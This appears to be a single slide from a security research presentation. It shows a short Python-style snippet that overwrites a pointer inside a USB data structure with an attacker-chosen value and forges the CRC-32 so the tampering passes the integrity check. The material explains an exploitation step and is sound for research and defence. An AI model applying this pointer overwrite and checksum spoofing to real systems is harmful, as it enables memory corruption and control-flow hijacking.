

The fix
Considering CRC-32 hash saving, we can modify the pointer like this:

bad_ptr = 0xbaddad
buf_size = 0x10
buffer = mem_read(usb_data + 0x70, buf_size)
crc32 = get_buffer_crc32(buffer)
# replace the pointer (usb_data + 0x78)
buffer = buffer[0:8] + pack(‘<Q’, bad_ptr)
# spoofing crc32, first 4 bytes will be modified
buffer = modify_buffer_crc32(buffer, 0, crc32)
mem_write(usb_data + 0x70, buf_size, buffer)